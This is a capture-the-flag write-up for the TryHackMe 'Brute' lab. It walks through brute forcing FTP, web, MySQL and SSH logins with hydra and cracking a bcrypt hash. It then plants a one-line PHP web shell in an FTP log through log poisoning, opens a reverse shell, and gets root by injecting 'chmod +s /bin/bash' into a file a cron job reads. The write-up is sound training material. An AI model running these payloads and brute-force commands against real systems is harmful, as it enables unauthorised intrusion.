

# Brute
**Date:** July 31st 2022

**Author:** j.info

**Link:** [**Brute**](https://tryhackme.com/room/ettubrute) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>


<br>

## Objectives
- What is the user flag?
- What is the root flag?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 10.10.111.4`

```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
3306/tcp open  mysql   MySQL 8.0.28-0ubuntu0.20.04.3
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.28-0ubuntu0.20.04.3
|   Thread ID: 14
|   Capabilities flags: 65535
|   Some Capabilities: FoundRows, ConnectWithDatabase, Speaks41ProtocolOld, SupportsCompression, Support41Auth, SupportsTransactions, LongPassword, SwitchToSSLAfterHandshake, InteractiveClient, ODBCClient, Speaks41ProtocolNew, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, LongColumnFlag, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: z02.>+t+~\x7FZo*3]\gVq\x17
|_  Auth Plugin Name: caching_sha2_password
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-10-19T04:00:09
|_Not valid after:  2031-10-17T04:00:09
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.111.4 -t 100 -r -x php,txt,html -w dir-med.txt`

```bash
/config.php           (Status: 200) [Size: 0]  
/index.php            (Status: 200) [Size: 1080]
/logout.php           (Status: 200) [Size: 1080]
```

<br>

## FTP Digging

Anonymous access isn't allowed.

Given the name of the CTF is brute I'm going to guess that brute forcing has something to do with it, so I start up **hydra** to see if I can brute forcemy way in:

`hydra -l root -P rockyou.txt 10.10.111.4 ftp -V`

No luck there. I try the same thing with the username of **brutus** since that's listed in the CTF title. That didn't work either so I move on to a few other characters from the Popeye show:
- **popeye**
- **olive**
- **wimpy**
- **pappy**
- **sweepea**

<br>

## Website Digging

Visiting the main page:



More brute forcing:

`hydra -l admin -P rockyou.txt 10.10.111.4 http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid username or password." -V`

I try and brute force the previous Popeye character names as well and no luck on any of those.

<br>

## MySQL Digging

Again I try some brute forcing with **hydra**:

`hydra -l root -P rockyou.txt 10.10.111.4 mysql -V`

And we have some luck!

```bash
[3306][mysql] host: 10.10.111.4   login: root   password: <REDACTED>
```

Logging into the MySQL server and showing the databases:

`mysql -h 10.10.111.4 -u root -p`

```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| website            |
+--------------------+
```

Looking in the **website** database shows us a **users** table with a password hash for **Adrian**:

```bash
MySQL [website]> show tables;
+-------------------+
| Tables_in_website |
+-------------------+
| users             |
+-------------------+
1 row in set (0.077 sec)

MySQL [website]> select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | Adrian   | $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we | 2021-10-20 02:43:42 |
+----+----------+--------------------------------------------------------------+---------------------+
```

Looking through the rest of the databases and tables doesn't provide anything useful.

Let's try and crack the hash we found for the Adrian user:

`hashcat -m 3200 -w 3 -D 1,2 -O hash.txt rockyou.txt`

```bash
$2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we:<REDACTED>
Recovered........: 1/1 (100.00%) Digests
```

Alright we should now be able to access the website let's go back and revisit that.

<br>

## Website Digging Again


We're able to login and when clicking the log button shows us what looks like only failed login attempts including some of the ones we tried. After experimentation this logs failed logins for the FTP server:

```bash
"::ffff:10.6.127.197" Sun Jul 31 16:11:52 2022 [pid 1064] [root] FAIL LOGIN: Client "::ffff:10.6.127.197" Sun Jul 31 16:11:52 2022 [pid 1073] [root] FAIL LOGIN: Client 
```

Immediately I think we'll have to use log poisoning since we're viewing a log file. I try and login to the FTP server with the following to get our code into the log file:

```bash
┌──(kali㉿kali)-[~/work]
└─$ ftp 10.10.111.4
Connected to 10.10.111.4.
220 (vsFTPd 3.0.3)
Name (10.10.111.4:kali): <?php system($_GET['c']);?>
331 Please specify the password.
Password: 
530 Login incorrect.
```

And looking back at the log:

```bash
"::ffff:10.6.127.197" Sun Jul 31 16:52:26 2022 [pid 3177] [/usr/bin/python3 ] FAIL LOGIN: Client "::ffff:10.6.127.197"
```

It logged our attempt so we should now be able to capture a request in burp and reverse shell back to ourselves. And they helpfully listed python3 in the log so we can try that for the reverse shell.

I test out a command just to make sure it's working and it is. The **ls** command sent gives us a list of files:


<br>

## System Access - www-data

I head over to [**revshells.com**](https://www.revshells.com/) and create a python3 reverse shell and use URL encoding on it:


Then start up a listener on my system and send the request over via burp and get a shell back:


We have a shell that could use some work so I upgrade it:

```bash
www-data@brute:/var/www/html$ clear
clear
TERM environment variable not set.
www-data@brute:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@brute:/var/www/html$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@brute:/var/www/html$ export TERM=xterm-256color
www-data@brute:/var/www/html$
```

<br>

## System Enumeration - www-data

We don't have access to `sudo -l` since it requires a password.

Looking at capabilities via `getcap -n -r / 2>/dev/null` doesn't give us anything we can use.

I look for files with SUID set and don't find anything interesting:

`find / -perm /4000 2>/dev/null`

Users on the system with shell access via `cat /etc/passwd | grep bash`:

```bash
root:x:0:0:root:/root:/bin/bash
adrian:x:1000:1000:adrian:/home/adrian:/bin/bash
```

Poking around the **/var/www/html** directory shows us a **config.php** file with MySQL credentials in it for the adrian user:

```bash
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'adrian');
define('DB_PASSWORD', '<REDACTED>');
define('DB_NAME', 'website');
```

Logging into the mysql server with these credentials gives us access to the same information we previously found except adrian only has access to the website database where root had all databases.

I take a look at **/var/log/vsftpd.log** out of curiousity and see the php code we injected:

```bash
Sun Jul 31 16:52:26 2022 [pid 3177] [<?php system($_GET['c']);?>] FAIL LOGIN: Client "::ffff:10.6.127.197"
```

I try and login to adrian on ssh with both passwords we found for him but it doesn't work.

Moving on to brute force and don't have any luck:

`hydra -l adrian -P rockyou.txt 10.10.111.4 ssh -V`

Looking through the adrian home directory shows us a file we're able to read:

`cat /home/adrian/.reminder`

```bash
Rules:
best of 64
+ exclamation

ettubrute
```

These sound like brute forcing rules to me. I search around and find that best of 64 refers to a rule set included with both hashcat and john the ripper. ettubrute sounds like the password we would apply the rules to.

Creating the password file:

`echo ettubrute | john --stdout --pipe '--rules=best64' > pass.txt`

And a little sed magic to add an ! to the end of each line:

`sed -i 's/$/!/' pass.txt`

The first few lines of our pass.txt file show that it worked:

```bash
ettubrute!
eturbutte!
ETTUBRUTE!
Ettubrute!
ettubrute0!
```

And we should now be able to brute force with this wordlist.

`hydra -l adrian -P pass.txt 10.10.111.4 ssh -V`

```bash
[22][ssh] host: 10.10.111.4   login: adrian   password: <REDACTED>
```

<br>

## System Access - adrian

I ssh over with the cracked password and log right in:

ssh adrian@10.10.111.4

```bash
Last login: Tue Apr  5 23:46:50 2022 from 10.0.2.26
adrian@brute:~$ whoami
adrian
adrian@brute:~$ hostname
brute
```

<br>

## System Enumeration - adrian

Checking `sudo -l` says we're not allowed to run sudo.

Looking in adrian's home directory we can now read the user.txt file we previously saw and it gives us our first flag:

`wc -c /home/adrian/user.txt`

```bash
21 /home/adrian/user.txt
```

Continuing to look around his home directory we check out the **ftp** directory and see 2 files in the **/home/adrian/ftp/files** directory:


```bash
-rw-r----- 1 adrian adrian   203 Oct 20  2021 .notes
-rw-r----- 1 adrian adrian    90 Oct 21  2021 script
```

.notes:

```bash
That silly admin
He is such a micro manager, wants me to check in every minute by writing
on my punch card.

He even asked me to write the script for him.

Little does he know, I am planning my revenge.
```

script:

```bash
#!/bin/sh
while read line;
do
  /usr/bin/sh -c "echo $line";
done < /home/adrian/punch_in
```

Back in **/home/adrian** we see 2 files related to punching in:

```bash
-rw-r----- 1 adrian adrian   360 Jul 31 18:48 punch_in
-rw-r----- 1 root   adrian    94 Apr  5 23:51 punch_in.sh
```

punch_in:

```bash
Punched in at 18:31
Punched in at 18:32
Punched in at 18:33
Punched in at 18:34
Punched in at 18:35
...
```

punch_in.sh

```bash
#!/bin/bash

/usr/bin/echo 'Punched in at '$(/usr/bin/date +"%H:%M") >> /home/adrian/punch_in
```

Running `crontab -l` shows us a cron job running once a minute to do this:

```bash
*/1 * * * * /usr/bin/bash /home/adrian/punch_in.sh
```

We can't edit the .sh script but we can edit the punch_in file. If root somehow accesses it maybe we can get a command to be run from that file. Almost like log poisoning but a little different. I edit the file to add the following to the end of the file:

```bash
Punched in at 18:35
chmod +s /bin/bash
```

That didn't work. I try and use command substitution by enclosing the same command in backticks (`):

```bash
Punched in at 18:38
`chmod +s /bin/bash`
```

Looking at /bin/bash in it's current state:

```bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

And a minute later:

```bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

Alright, we now have a SUID /bin/bash. Let's esclate.

<br>

## Root

Running the SUID /bin/bash:

`/bin/bash -p`

```bash
adrian@brute:~$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# hostname
brute
bash-5.0#
```

Grabbing our last flag:

`wc -c /root/root.txt`

```bash
34 /root/root.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **hydra** multiple times to brute force various services
- Logging into a **MySQL** server and finding a username and password hash
- Cracking the hash with **hashcat** and then using it to login to the website
- The website had the ability to view a log file of failed FTP login attempts, and we used **log poisoning** to insert malicious PHP code into the log
- We then used **burp suite** to capture a request, modify it, and send it over that made use of the malicious PHP code to reverse shell back to us
- Finding a file in a user home directory that had **brute force rules** and a password which we used to build our own wordlist and brute force into that user over ssh for lateral movement
- Adding **command injection** code into a file that root checked once per minute which allowed us to add SUID to /bin/bash and escalate to root

<br>

Many thanks to:
- [**hadrian3689**](https://tryhackme.com/p/hadrian3689) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)